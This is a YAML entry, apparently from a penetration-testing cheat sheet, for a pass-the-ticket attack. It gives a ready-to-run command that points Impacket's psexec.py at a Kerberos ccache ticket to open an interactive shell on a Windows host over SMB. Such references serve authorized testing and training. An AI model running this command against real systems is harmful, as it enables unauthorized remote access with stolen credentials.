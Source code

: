 ```yaml
---
description: |
  Impacket's psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host. psexec.py also allows using Service Tickets, saved as a ccache file for Authentication. It can be obtained via Impacket's GetST.py

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

command: |
  export KRB5CCNAME=/full/path/to/john.ccache; python3 psexec.py test.local/john@10.10.10.1 -k -no-pass
items:
  - TGS
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://www.sans.org/blog/psexec-python-rocks/
  - https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket#pass-the-ticket-attack
---
```

